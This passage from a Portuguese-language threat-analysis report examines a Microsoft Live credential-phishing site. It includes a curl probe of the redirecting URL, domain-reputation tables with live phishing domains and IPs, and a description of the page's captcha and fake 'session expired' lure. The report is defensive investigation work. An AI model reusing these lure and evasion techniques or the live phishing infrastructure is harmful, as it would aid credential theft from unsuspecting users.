O resultado da análise, evidenciou a presença de portas abertas `80` e `443` para serviço `Apache` de conteúdo web, sendo observado também:
* `3389` / `RDP` (Remote Desktop Protocol)
Provavelmente, para acesso remoto ao servidor de modo gráfico ao windows, facilitando o uso por usuários não familiriazidos com linux, como no caso de golpistas que adquirem o kit phishing pronto para uso, sem conhecimento prévio técnico.
* `5986` / `WinRM over HTTPS` (Windows Remote Management)
Utilizado para acesso remoto, com fornecimento da powershell remoto, permitindo a automatização de processos no servidor.
Demonstrando assim, a estrutura phishing estarem um ambiente híbrido, sertvindo conteúdo web e serviços Windows respondendo em paralelo (ex: APIs, backend), hospedando aplicação web ativa e om acesso administrativo remoto exposto.  

## 8. ACESSO À URL DO BOTÃO `https://acess200.acessoportalatendimento.app`
Inicialmente, o acesso foi realizado pela ferramenta `curl`, retornando como reposta `HTTP/2 301` sendo redirecionado para outra url `https://verificacentral.acessoprotegidolive.com/`.
A tentativa de acesso após redirecinamento para a url relatada, retornou `HTTP/2 403` por conter `cf-mitigated: challenge`, retornando em seu conteúdo de reposta `Enable JavaScript and cookies to continue`, mostrando o desafio de execução de scripts como forma de mitigação de renderização da página por ferramentas automatizadas, coo no caso do `curl`, que não executa scripts, e assim, seja necessário o uso de navegadores para exibição do conteúdo da url, com o uso do Managed Challenge da **Cloudflare**.
No cabeçalho, foi possívewl observar também, a mitigação de execução em sandboxes como o `ANY.RUN`, com a declaração `x-frame-options: SAMEORIGIN`, que impede sua execução em Iframes.

```Bash                                     
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation]
└─$ curl -i -k -L \
  -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" \
  -H "Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7" \
  -H "Sec-Fetch-Dest: document" \
  -H "Sec-Fetch-Mode: navigate" \
  -H "Sec-Fetch-Site: cross-site" \
  -H "Sec-Fetch-User: ?1" \
  -H "Upgrade-Insecure-Requests: 1" \
  "https://acess200.acessoportalatendimento.app/"
HTTP/2 301 
date: Sat, 10 Jan 2026 19:40:05 GMT
content-type: text/html; charset=iso-8859-1
location: https://verificacentral.acessoprotegidolive.com/
server: cloudflare
nel: {"report_to":"cf-nel","success_fraction":0.0,"max_age":604800}
report-to: {"group":"cf-nel","max_age":604800,"endpoints":[{"url":"https://a.nel.cloudflare.com/report/v4?s=fT6SfyHmHvcmjuFh0F%2FZ2NGIAPX%2BAY00b%2F8ns6sAoW%2Fxfq18dZnh5JWgeBGhKg2sbh1tW1DTnrQHyBuC1F8MMs0uCWaQSebPjn%2FeIukFlacrcn5h%2Bfu4I5%2BQz40hKtbKvtq5Tw%3D%3D"}]}
cf-cache-status: DYNAMIC
cf-ray: 9bbea4e60e396645-AMS
alt-svc: h3=":443"; ma=86400

HTTP/2 403 
date: Sat, 10 Jan 2026 19:40:07 GMT
content-type: text/html; charset=UTF-8
accept-ch: Sec-CH-UA-Bitness, Sec-CH-UA-Arch, Sec-CH-UA-Full-Version, Sec-CH-UA-Mobile, Sec-CH-UA-Model, Sec-CH-UA-Platform-Version, Sec-CH-UA-Full-Version-List, Sec-CH-UA-Platform, Sec-CH-UA, UA-Bitness, UA-Arch, UA-Full-Version, UA-Mobile, UA-Model, UA-Platform-Version, UA-Platform, UA
cf-mitigated: challenge
critical-ch: Sec-CH-UA-Bitness, Sec-CH-UA-Arch, Sec-CH-UA-Full-Version, Sec-CH-UA-Mobile, Sec-CH-UA-Model, Sec-CH-UA-Platform-Version, Sec-CH-UA-Full-Version-List, Sec-CH-UA-Platform, Sec-CH-UA, UA-Bitness, UA-Arch, UA-Full-Version, UA-Mobile, UA-Model, UA-Platform-Version, UA-Platform, UA
cross-origin-embedder-policy: require-corp
cross-origin-opener-policy: same-origin
cross-origin-resource-policy: same-origin
origin-agent-cluster: ?1
permissions-policy: accelerometer=(),browsing-topics=(),camera=(),clipboard-read=(),clipboard-write=(),geolocation=(),gyroscope=(),hid=(),interest-cohort=(),magnetometer=(),microphone=(),payment=(),publickey-credentials-get=(),screen-wake-lock=(),serial=(),sync-xhr=(),usb=()
referrer-policy: same-origin
server-timing: chlray;desc="9bbea4f09a72fff6"
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
cache-control: private, max-age=0, no-store, no-cache, must-revalidate, post-check=0, pre-check=0
expires: Thu, 01 Jan 1970 00:00:01 GMT
report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=jyehUF%2Ba4fDb5VLdPF2ZfLp6I6g15Km3aRrOieyBynQI7S7QzVxmRjzqDqGjbAJRUU%2BOQJEuCbWABneVW61ZshFmgbTV70zUCR0Hfde1JaRBgnqG9PH1jv4vokUmF7%2FS%2FDl9W3Vh1jtrDwXXkynKr4Hnj08BAY5skw%3D%3D"}],"group":"cf-nel","max_age":604800}
nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
server: cloudflare
cf-ray: 9bbea4f09a72fff6-AMS

<!DOCTYPE html><html lang="en-US"><head><title>Just a moment...</title><meta http-equiv="Content-Type" content="text/html; charset=UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=Edge"><meta name="robots" content="noindex,nofollow"><meta name="viewport" content="width=device-width,initial-scale=1"><style>*{box-sizing:border-box;margin:0;padding:0}html{line-height:1.15;-webkit-text-size-adjust:100%;color:#313131;font-family:system-ui,-apple-system,BlinkMacSystemFont,"Segoe UI",Roboto,"Helvetica Neue",Arial,"Noto Sans",sans-serif,"Apple Color Emoji","Segoe UI Emoji","Segoe UI Symbol","Noto Color Emoji"}body{display:flex;flex-direction:column;height:100vh;min-height:100vh}.main-content{margin:8rem auto;padding-left:1.5rem;max-width:60rem}@media (width <= 720px){.main-content{margin-top:4rem}}.h2{line-height:2.25rem;font-size:1.5rem;font-weight:500}@media (width <= 720px){.h2{line-height:1.5rem;font-size:1.25rem}}#challenge-error-text{background-image:url("data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHdpZHRoPSIzMiIgaGVpZ2h0PSIzMiIgZmlsbD0ibm9uZSI+PHBhdGggZmlsbD0iI0IyMEYwMyIgZD0iTTE2IDNhMTMgMTMgMCAxIDAgMTMgMTNBMTMuMDE1IDEzLjAxNSAwIDAgMCAxNiAzbTAgMjRhMTEgMTEgMCAxIDEgMTEtMTEgMTEuMDEgMTEuMDEgMCAwIDEtMTEgMTEiLz48cGF0aCBmaWxsPSIjQjIwRjAzIiBkPSJNMTcuMDM4IDE4LjYxNUgxNC44N0wxNC41NjMgOS41aDIuNzgzem0tMS4wODQgMS40MjdxLjY2IDAgMS4wNTcuMzg4LjQwNy4zODkuNDA3Ljk5NCAwIC41OTYtLjQwNy45ODQtLjM5Ny4zOS0xLjA1Ny4zODktLjY1IDAtMS4wNTYtLjM4OS0uMzk4LS4zODktLjM5OC0uOTg0IDAtLjU5Ny4zOTgtLjk4NS40MDYtLjM5NyAxLjA1Ni0uMzk3Ii8+PC9zdmc+");background-repeat:no-repeat;background-size:contain;padding-left:34px}@media (prefers-color-scheme: dark){body{background-color:#222;color:#d9d9d9}}</style><meta http-equiv="refresh" content="360"></head><body><div class="main-wrapper" role="main"><div class="main-content"><noscript><div class="h2"><span id="challenge-error-text">Enable JavaScript and cookies to continue</span></div></noscript></div></div><script>(function(){window._cf_chl_opt = {cvId: '3',cZone: 'verificacentral.acessoprotegidolive.com',cType: 'managed',cRay: '9bbea4f09a72fff6',cH: 'qmKnhiKLqlPo0ltxYMHFfGkFWLPOLhUkjUbvxd.HnUc-1768074007-1.2.1.1-wZJ9N6X0RoYdD.SOulPvoYE9aeqxQq988TCxhfkgxa.mENTrb_eaFi.lY2LWUTVa',cUPMDTk:"\/?__cf_chl_tk=I4uWHZStMqFbtbFHvTLgTaD5au4eCbwVipuQ2rd1k74-1768074007-1.0.1.1-WBMI8a7Dqd1YwTNkmeRfJcsn4XdYRjdzgUQbKt.ezsc",cFPWv: 'g',cITimeS: '1768074007',cTplC:0,cTplV:5,cTplB: '0',fa:"\/?__cf_chl_f_tk=I4uWHZStMqFbtbFHvTLgTaD5au4eCbwVipuQ2rd1k74-1768074007-1.0.1.1-WBMI8a7Dqd1YwTNkmeRfJcsn4XdYRjdzgUQbKt.ezsc",md: 'l5vdOENDRelnX61RkvjkVMdb1z2VoyXD8O0Uu76X0E8-1768074007-1.2.1.1-75Ue6jekKUjQa644A2PH3_qNq2c4tZWnHdh5snO._Vr3DBsYIsJD1CyxHZP05VZ2XsFsw5T_rY98BVEat2NLr0QtPQJHObnOGH_8A0MXPLOjVXJdtCWkDOBEnmYxP0hZwq7mWPgwj85ByxfS1ICx6EB7CNuce_9.pAB6dJOoxqEG2DB.yptmkq4_R5SK.5L38NBqe0If1Ewp000SMN8LWyq0jm5nxYS2Cf5rGjebAJYx09eXdWKDZx1nI5cYzfGSp2oggJODpXuQHV6mC.ZmDUTYm6Sf3F7B9DtrwLlkJ1CPVfselSh5ER1IHAbw3nhHwmvFIQBCBo9JkJhPNSBhmZL0BgVCfdjklCnkfrpDW7GdlgfWfEhQZogcxFVxepCgrxjlYEfcyE8dHWyU5H0KdTDvDSdDRiCLj1r76viPxcYdGEd5MiIK9I9JrpLSuuTHHThtvUJmrSCcHSfBDBQNia0GwBTflKUEblZtq.Ran0WAPRXPGMdf_Q64Yy_rtjR3jBOz2XKahYqUj5Fc3RTI0_I5.BEJrtLEyu4UY1sr8Q2p2DlZOMAoqk4fxzHV1d6UGjuRjHU7Kq821QgLHJzfLuN9ExEHeo1V3624gP7bL8gxG97dSXgSQeSqIE0Cb_WQZw0z0louBCEu9DXY4gcJeZqFS8IZi2bGzm8Da8cMCwec4bYfJENnkd8HzokIb7X00Fh9Mw8kYDNE0SM7DehdIfGUStluQorfvlGlzmt9qs88hAhOj6BI3VrlJ.Jn4NzFB2IF5xb_24iVfhT3AjXjPo6Wjw7VKmswghKMFr2osg49gxVT0jb_vMEQAfK4OllHwYxz5w.VXYD3U.IfhP4yVZa7pLarBqdmFk38M9djDMD8LL0ANupvZ.l._5mndtW2KF5Ov7.gia.MHqiHtVCPl5S5T9NXxB8p9Jm7nDP.XbXFCah352_cx7bMqBJuiHYqWbKBCcCf.mgS6fFAoiRvhg',mdrd: 'iepfwV2zxMdTJdObIt6l5rF5fvQTPpFHlhC_HZTHids-1768074007-1.2.1.1-rX.JrhEm9lchYPoLhtecykQZIbWq64VeDvni1x_aKlEQu8l2wKqCrHX7PHVhJ_4jaCfmFH9hIPnxNpNcL9o1uXP__ZHuGIRMz36co9txRK.qv_sArArGO3rOX9a29qnVYFJ9qFaYuYP8Yf2eApC89wJci_kLtPHShpMPRAOW75FmT8KsqrvjQTp7.it2NXvvLB7_KGHG47IrUaxxTYMnud53BZQSqjgDG8oaWa5ToDbnWjAuUr8Mnv5iE06uad5tZXxCUeyJYw4vsU6wIDPLin2yDwtSsRTTU.yCu1xVTf8YLHVprAuVxEVyhFL6o3VyIxcg.I1RMeIOEe4V9mJJLIGL.pSAIxjQ7RyKwBNIyz5SBbuNkNEsF7Dflu.Qq_KKf0xbVoNWc21tbTmtksxHGZkQmUrb7v8sJ7CHWRmnyIbGgleTT9RX9VLL.TaqycRVYjDBBvCu0wKtcItR6bTSKArfe3mgQcCR3OX7WEjl8CFOdKydnTpWZ5ny37ykVqmX2S24LgUK3qEZQ5cqZt2t8CM2zWMeXhr4lpCvfg9SA3eqU.MsEN8J9OdX1RIbp4OuvEQ5DIPWeX_kX15lBzU5xPS.z4T3zgie.aZWLLnOGp791sSakPl7tSkWfKq5LC2EymjoIwQPgtxBTfSInDeA6TLpKwbzt2VLV5SLNgZjfN7pVjRpUTccBmuhge14NxT1Fsbf762MCO29yFIq7mGwNTDjsLHZs6El7P_cKdI0nZOCi.yYSozygK9WTFfbVDHyMZOJAy23G2r69yW74X0ZDce9hXaRjhuyl.Ea39bPaqObOAdIpg.trZ4N1jo9NepriuaYx7VkBYQOI6sYXv6zMe7B3modMBRW1Fj_BzwYrk2XJsM2ua43AcZscGcamW4TQfqE30.gO5UTxscdaMMPEPyNwrGw.Addfm7Vhm4vV_t2PtslxKi9fA6S7wHfihMWufsdK2qq4ElfdM9SZsYhElpZ23D_GLxbzUKemp_ioLGdkbnO.t5gTxtJ5I8waYyFRr7_tmk9PlFuN8HUFhYf..SzMyohd8t3SlsyOJrXEUs1VXE9GCBnpkRY508uvoiSpY7S5NhogmboeIzWITowq8EaghAIt5DCEh4GAYucFKUvlvnvoyjzJE3_RDoZGfPpJUVHG8qzwpcCZYwuueGWgDy4Rq0DmmI1GUhPDGJNH79v0jJ_yC3ckNYJMGg.bNMdMJBlMigwVtO97owo_6sy36QgnzCURJJW3kkpTm32r1_ELMag1c.4DcEzGWNYtZHzZE7FQX2RGhbYn1TSlLO1iic3VWfBSJJUizXjSq4C_YS__cK3SVNMWEqg6Sp3GtfUeqG4iplKl4cWrSuhwRz8JBParU_syYfQtC.QQmOIslCvrtyOmkKIFPO_KyezPvGAPgclt5jMekb5_gbTwcdzi5E2ou4lLhpR8ektUpOyO9VLZvX3sry.IIPeHou9K.6jj5fzIpGR4XJpyFABedaNbBdxy_BAY8P63.mKm6.e90gs3673_7OF5p0.cJviV14jAeO6R7p3YkMCxPm.6_hCFL3v6O0U3Cq17icvNE.KnFjxxEMsHmtpStDH.Li3cKlt6yjXVAkBWSvoFyINrtzzQVgVkhzz2TbP3JND.dkCvq7OHxKL235.PCNcfaBliZAIpGiSau6Lucp9Auff5_9zak7OBEGCLotFkWw9Q6CJf5tkCboA2epBsgFFiiTwsRzG.fWrqeGErRnKg3GXgChFBUSw3wyYKIqFHP6ru32Mzsgp5dSLpD6AXVHFnnFu0ns_ENX2J9S6trMH.zAGKs5QJW1yDVwXdUSw3QpPFPjq3D_5JmMlCLoNjECtccjDUPdONJtXlLB2B4i.OOBDGut92mn7ZFxk6AdOOMnfgBXRL.qxGXK9UAhDtgrrylhOUHULN8q0eGYZYYAvZw2rZn5tUvZ52ugTUTIJH53XttZQi1fsRyyAL7DLB8dA3tJA5fMcFKV7o1s3YgRzu_Iz8Ou4L2jqZOOaXSy_TRdgh2FXX_adlS21p02poTDBzcZX1gsQxl4gX.UsKhBPa.g4zJ2Vr_JJOmzWycdsUpsT2Z5zwChF_RR38GK_WNfk0tmQKIULHiPLWGMD2y5zDPjLCj509goVeBFgmnGWJboRNwDHwcKVtauOf3ZxPhqS9fPfKxbedX.W_ziAAuSOBa9D_k303pYD6JC5zkXkS7bclQCzjQqiQlgJ2SrHlUR9nfvjpr8PtGcgI.uFlGtyzSfna48tzU77AqVD.3ryJB1L.wdY51TysCpa6D7Cre2IrOLEZku193C2sdQIE29egWNzbM.6oKT.NW84oxejnTZd9c.kDAW.d._uz7918e7FkjGrxZbA9HXARFbu8A9x4pWcykAzQTWa55sFyMifZOaNCNh7JMrD0ow9MqlwghlOtco2OAUAGc3RHaoXbMONUkxofmuvSSRO6pmyYBknSoCvfHXoO_5MaGCV9Pwg6SKo2zVIkw4U.YYWbGxPkM_pjwBqTumTt0y5xzQosB4lTSq_fXVIIKNOtj9ypd3pB3Ukrv7mhvpxlNvOSuFPlg7k6F4Z9dKSwIksdHaMf_YxPityduGDXjcuxgOptqKG4gpjyvoejd6zrmMLZp13krXfjDcoouj7.7BVAv62uxZ3hyWhwVY4NypBzx6ykp_0EUbeREnQQp2ZZ_F4osxMLwz7FQu5uwqS60gwzuuJXcVIFfwvec0Om6YAP8_o8C9PdQucjNrerWN1lIcXDw3Az2AgjulR554FfThIvshdk.5M8_HZbqwgucS6QVLBHGMif6ZfJovhht.Hl09LMjgqOEJ3BdVD0_9PgvA2yq3gApLcTCSUrpHfF3KpvJKBPwxnDUMhO2wHeW4OoO4Aw7ugfC2XGGAM4Nb4wNzVfBrsONGgDjYz5WjjcbnHCflHS7U8XOsYkYmNloYa7UwqHQyEEqQbGBpelOd_EruZuj4eJswJfYzUz5LiDSKF00qshiHb85O5pAb1ObFAYSZFuiwK0Xachq0UMDck81AeGKRXyXiIGEvXf56sg4nUhoZha.CIMqE.rX3BLrn1xjx9vnidumsgTyLRAsHSt_hVCLfkKvLETvUsgIFW7AaJHS.LqxHPiVwXdFkb6BmO84rgND0VFRMgzmd8a8QAYp0Q0tnde7786XED_Ren4ZZLM1OghxCOZbuixNMz9VRLLpWjtdA7aigtFXy6L41FuJnzDphw2uRoNZ2amdIS33UJQg1JUXApQWB_xW02BowWZUkxqSIQS9i_CTqCMlqVDFjOPe4O6m2RZTWHJyrrz.yo64eudcHJshzkYmhzz1oJ_.tBJnkNcVFKU6rjiiA3jKAs1ODvhmmGBVIRckSBQ.jAMGNizp49c3KWMhKdFH..jTIImEExs3.meKvbUwosXKd5ysxOSEeFaI8TDWI6SwJgeJzF.aSPAB1YVpkzJiCo2AsWVUQDBIqhp7fnIIq5kLi2xQmXkD6EShIbfGFrwBGJ21q.bxB4iCxNau0cxWMmTzNiP_4wvx8Pu2XpHwRcBJjwlNNij.yVc62x.INuZdogThTUGd_Pqetd91WoShzeWN6BCdrC9B9LJmMHyC0c.QuS38VHnmKLOPVMFIxcIzm395ADQilczIkBrQiJQuGHdSN9npyKdVKMTzqjg3NDEfAJayxSji94XeBdU5GfoZ2WzTEZuic5fMW0ipUkLVxNXn0EN4iKJG2kQWwQerr7KhFaCBTlKIiIXYMh3GjpOIvPaoB.QkYajMr8LIux42Y7bB2VdhVjRkhXUscWgYGGBzrGoYNty8yxNzULwS6OvHjUxYkEbdsCMUx2F1Vo5C9IPVzaTXBnHTbLfIgjtyQ4pw4vyX_K8WrxJoO6MDkn5F3WwQ3VxePH6PyMuJTstuf93EdaE4vtMSLXCfB6ifOebB9DKwNXvwhaSjYhg50OjyA2FB3Q0HrWFaMmzGluhUSnqgMb3koY6Lg3sFLHRRXuwTlYFXUmc.SqSYlW1BQbLpfhJF5l_xBUzfcWM1WtvzOOwaB4YbEfBhra.Y.3BoIbqv3ABjnfNTCCfuWFmU.J1U4iSA5IdgXIy2RPwoT9qIHodLAsjrYsrrf94RzBRUnJVGCQjOyQ0ymVxJzwX3KT9G2iu4MAW3wst7EtA9AAWTdyWft5xwVFwuwQ8tb9s.u24wpI_uP0LykT9iuMSzGfKhVHwDzbzEPDpnJw8rqRrXyB_B6XGcE54k8Lq7y_yCdn_3IVYH0k0EfIoVBHhb6Gam3bzMNjp7dAf5YD_iVbqS3uKJIzcXKcBlH9qMtm98dx5AklgvEVdKVtSAL4OiKAytSbdH.1.7P_ixikbPPhUxl3Xz_.Ct1ujqYT1WhLU8G3U7v3F48Otj8onScXlZH560O090e7ovZGX5Rzu9YFXxee9JrfyszxVhs0mvFcd_VjPwoh1pmvCwwoxrOQgkIUILStq84FqoPXMAumYpA27MGL45yJ.j7xc3QHU7kERyyteWua0B7Ep4e37uX9oEHfVLwD8hy3SHkbp22uKyxeQn4PAKWdQsx_Sj_SZYR6hbihksbLUOq.pIjG80Sd.4jraaxN9HupHXkfclhhrT3LYfBJZVDUj7fFl0aZ.NH3dUFJxOKBXnQYsp9WyccI3DTa.nugEAKZQJMT17nTrqpT8BPw1QvVKghVDhm57QW9ipWXC1ee1_Weme_z1FNyUHvB6rmDlAFHtUGLM7d8viC1lZOuxtgcs8ms.A3cuJ2oqzpzNUEVyi5IoSybG8.78Z8NYT_ZccbKrWkw9jP3CmKnFU6RR5hO7YffaYPc8Emk_WisdgG15lTnGPZYMf966VnUmbrm.A2H52nSmMNod7E2MyV1Uz._YagtH6yeA7Q_7W1xUVvwUJzA_1RpJ2uKZavvrrhm9RITOQVN4N4ImBDU80yfWDJXP1Qj4M1.FmZns_bP7SCFBlhym2udochCM8dK9OI',};var a = document.createElement('script');a.src = '/cdn-cgi/challenge-platform/h/g/orchestrate/chl_page/v1?ray=9bbea4f09a72fff6';window._cf_chl_opt.cOgUHash = location.hash === '' && location.href.indexOf('#') !== -1 ? '#' : location.hash;window._cf_chl_opt.cOgUQuery = location.search === '' && location.href.slice(0, location.href.length - window._cf_chl_opt.cOgUHash.length).indexOf('?') !== -1 ? '?' : location.search;if (window.history && window.history.replaceState) {var ogU = location.pathname + window._cf_chl_opt.cOgUQuery + window._cf_chl_opt.cOgUHash;history.replaceState(null, null,"\/?__cf_chl_rt_tk=I4uWHZStMqFbtbFHvTLgTaD5au4eCbwVipuQ2rd1k74-1768074007-1.0.1.1-WBMI8a7Dqd1YwTNkmeRfJcsn4XdYRjdzgUQbKt.ezsc"+ window._cf_chl_opt.cOgUHash);a.onload = function() {history.replaceState(null, null, ogU);}}document.getElementsByTagName('head')[0].appendChild(a);}());</script></body></html> 
```

**Acesso à url `https://acess200.acessoportalatendimento.app/` pela ferramenta `curl`.** Tentativa de acesso retornando redirecionamento para outra url `https://verificacentral.acessoprotegidolive.com/`, seguido de bloqueio de acesso pela ferramenta, pela presença de deafio contra ferramentas automatizadas.


Após tentaiva sem sucesso com o uso da ferramenta relatada, foi realizado o acesso via navegador pela VM Kali, em navegador **Google Chrome**, que imediatamente após carregamento da url, era redirecionado à url `https://verificacentral.acessoprotegidolive.com/`, que exibia uma página clone do login de acesso à contas **Microsoft Live**, apresentando um deasfio `captcha` como mitigação de acesso por ferramentas automatizadas que utilizem navegadores para renderização da página, esse, disponibilizado pela **Cloudflare**, além de também, servir como ferramenta de engenharia social, para aumentar o senso de veracidade da página, passando ser uma página segura à vítima.

**Figura 14. Acesso à url `https://acess200.acessoportalatendimento.app/` pelo navegador.** Página renderizada após redirecionamento por acesso pelo navegador para  a url `https://verificacentral.acessoprotegidolive.com/`.**

## 9. Análise do Domínio `acessoprotegidolive.com`
Para análise do domínio, foi utilizada a ferramenta automatizada de análise `Auto_Analisys`, já anteriormente referenciada nesse documento.
O log obtido pela análise segue abaixo:

```Bash                                 
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation]
└─$ python auto_reputation.py 


=================SISTEMA DE ANÁLISE DE REPUTAÇÃO AUTOMÁTICA=================

TIPOS DE ANÁLISES DISPONÍVEIS
[1]. Análise de Domínio
[2]. Análise de IP
[3]. Análise de Scripts

===========================================================================

Digite o número da opção desejada: 1
Digite o nome do domínio a ser analisado (ex: example.com): acessoportalatendimento.app
Coletando informações para o domínio: acessoportalatendimento.app...

=========>> Analisando e gerando relatório...


--- Fim da Análise ---
[+] Relatório salvo com sucesso em: threat_report_acessoportalatendimento_app.md
[+] Dados coletados salvo com sucesso em: threat_data_acessoportalatendimento_app.txt

[+] Hashes de integridade salvas com sucesso em: /reports/acessoportalatendimento_app_analysis_sha256_hashes.txt
```

### 9.1 Resumo
O domínio **acessoprotegidolive.com** foi registrado em 27‑Nov‑2025 via registrar **Tucows** (registrador “Tucows Domains, Inc.”) com quem‑privado (registrante ofuscado) e sobrenome “Saint Kitts and Nevis”. Não possui DNSSEC e utiliza nameservers da Cloudflare (`alec.ns.cloudflare.com` / `bonnie.ns.cloudflare.com`).  

O domínio está hospedado em infraestrutura da Cloudflare (IP s observados: `104.26.8.96`, `104.26.9.96`, `172.67.75.34`), pertencentes ao ASN **AS13335 – Cloudflare, Inc.**, com geolocalização nos **Estados Unidos (California / Arizona)**.  

No VirusTotal o domínio apresenta **0 malicious / 0 suspicious** e 93 undetected (nenhum alerta). Contudo, a presença de múltiplos sub‑domínios (ex.: `verificacentral.acessoprotegidolive.com`, `entrardadosprocess.acessoprotegidolive.com`) em diferentes varreduras do URLScan.io indica que o domínio está sendo usado como ponto de **redirecionamento / “webhook”** para URLs hospedadas em Cloudflare, padrão comumente empregado por atores maliciosos para contornar filtros.  

Não há pulsos listados no AlienVault OTX, mas a combinação de **registro recente**, **infraestrutura em cloud**, **ausência de reputação negativa oficial** e **uso recorrente em sub‑domínios analisados por sandbox** sugere que o domínio pode estar sendo explora​do como *infrastructure‑as‑service* (IaaS) por atores que desejam anonimato e escalabilidade (ex.: distribuição de payloads, C2 baseado em HTTP, landing pages de phishing). 

O domínio **acessoprotegidolive.com** apresenta as seguintes características de risco:

* **Registro recente** e **informações de registrante ocultas**, comuns em infraestruturas temporárias usadas por ameaças.  
* **Infraestrutura baseada em Cloudflare**, que oferece alta disponibilidade e anonimato, frequentemente explorada por atores maliciosos para C2, phishing e distribuição de malware.  
* **Sub‑domínios analisados por sandbox** que redirecionam para IPs de edge da Cloudflare, indicando uso como ponto de coleta ou entrega de conteúdo.  
* **Ausência de deteções diretas** nos scanners (VT), porém a maioria das análises classifica como “undetected”, indicando falta de histórico.

![**Figura 15. Análise do Domínio `acessoprotegidolive.com`**. Observada detecção de atividade maliciosa pela análise da ferramenta online `Urlscan` (`https://urlscan.io/result/019ba416-223f-74ba-b945-0026c061f5ee/#summary`), evidenciando também o uso de WAF **Cloudflare** para ofuscação de IP. Análise pela ferramenta online `Virus Total` (`https://www.virustotal.com/gui/domain/acessoprotegidolive.com`) retornando como domínio sem detecções ou relatos de atividades maliciosas por vendors ou comunidade.](./images/15.png)
**Figura 15. Análise do Domínio `acessoprotegidolive.com`**. Observada detecção de atividade maliciosa pela análise da ferramenta online `Urlscan` (`https://urlscan.io/result/019ba416-223f-74ba-b945-0026c061f5ee/#summary`), evidenciando também o uso de WAF **Cloudflare** para ofuscação de IP. Análise pela ferramenta online `Virus Total` (`https://www.virustotal.com/gui/domain/acessoprotegidolive.com`) retornando como domínio sem detecções ou relatos de atividades maliciosas por vendors ou comunidade.

### 9.2 Análise de Comportamento  

| Fonte | Evidência | Interpretação |
|-------|-----------|---------------|
| **WHOIS** | Registro em 27‑Nov‑2025, registrante ofuscado (País: Saint Kitts and Nevis). | Domínio recém‑criado, típico de “fast‑flux” ou “drop‑and‑move” usado para campanhas curtas. |
| **DNS** | Nameservers Cloudflare, sem DNSSEC. | Uso de provedores de DNS de alto desempenho e anonimato; ausência de DNSSEC facilita spoofing, mas não indica comprometimento direto. |
| **URLScan.io** (várias execuções) | Sub‑domínios (`verificacentral.acessoprotegidolive.com`, `entradadosprocess.acessoprotegidolive.com`, `acess200.acessoportalatendimento.app`) resolvem para IPs da Cloudflare (104.26.8.96, 104.26.9.96, 172.67.75.34). Cada scan gera ~9 requisições e 4‑5 IPs únicos, todos de mesma rede. | Padrão de uso como *landing page* ou *endpoint de coleta* (ex.: “entrar dados process”). Pode servir como redirecionador para sites de phishing ou “download” de malware. |
| **VirusTotal** | 0 malicious, 0 suspicious, 93 undetected (todos os scanners). | Ainda não detetado como malicioso, porém a maioria dos engines classifica como “undetected” – típico de novos indicadores ainda não presentes em bases de dados. |
| **cURL** | Falha ao resolver o domínio (erro 6). | Possível block de resolução em alguns resolvers ou mecanismo de *rate‑limiting* da Cloudflare; indica que o domínio pode estar configurado para responder apenas a certas regiões/endereços ou que a consulta foi feita antes da propagação completa. |
| **Infraestrutura** | Todos os IPs apontam para Cloudflare (AS13335). | Cloudflare é amplamente usado tanto por sites legítimos quanto por infraestruturas de comando e controle (C2) devido a sua rede global e recursos de ofuscação. |


### 9.3 Domínios e IPs Relacionados  

| Tipo | Valor | Observação |
|------|--------|------------|
| **Domínio principal** | acessoprotegidolive.com | Registrado 27‑Nov‑2025 |
| **Sub‑domínios (URLScan.io)** | verificacentral.acessoprotegidolive.com<br>entrardadosprocess.acessoprotegidolive.com<br>acess200.acessoportalatendimento.app (sub‑domínio de outro domínio) | Todos apontam para IPs Cloudflare |
| **IPs associados** | 104.26.8.96 (AS13335 – Cloudflare, US)<br>104.26.9.96 (AS13335 – Cloudflare, US)<br>172.67.75.34 (AS13335 – Cloudflare, US) | Endereços de edge da rede Cloudflare; utilizados como ponto de entrega/redirecionamento |
| **Nameservers** | alec.ns.cloudflare.com, bonnie.ns.cloudflare.com | Indicam uso de serviço de DNS da Cloudflare |
| **Domínios citados nas análises** | acessoportalatendimento.app (ponto de carga do sub‑domínio `acess200`) | Possível “front‑end” controlado pelo mesmo ator. |


## 10. ANÁLISE DE ESTRUTURA WEB
Conforme já relatado, o acesso à url de redirecionamento `verificacentral.acessoprotegidolive.com`, exibia uma página clone de login de acesso à contas **Microsoft Live** com um desafio captcha.

### 10.1. Fluxo de Acesso à Página

Após a resolução do desafio captcha, é renderizado um aviso de seção de login expirada, que logo após, renderiza a caixa de login, para inserção de id de login, buscando induzir a vítima sobre a veracidade de necessidade da inserção das credenciais de login.
A página inicia exibindo um modal (janela sobreposta) afirmando que a "Sessão Expirada" devido à inatividade. Esta é uma técnica de manipulação para justificar o pedido de login. Ao ver essa mensagem, a vítima tende a baixar a guarda, acreditando que a tela de login é uma consequência técnica legítima de sua própria inatividade, e não um link externo malicioso.


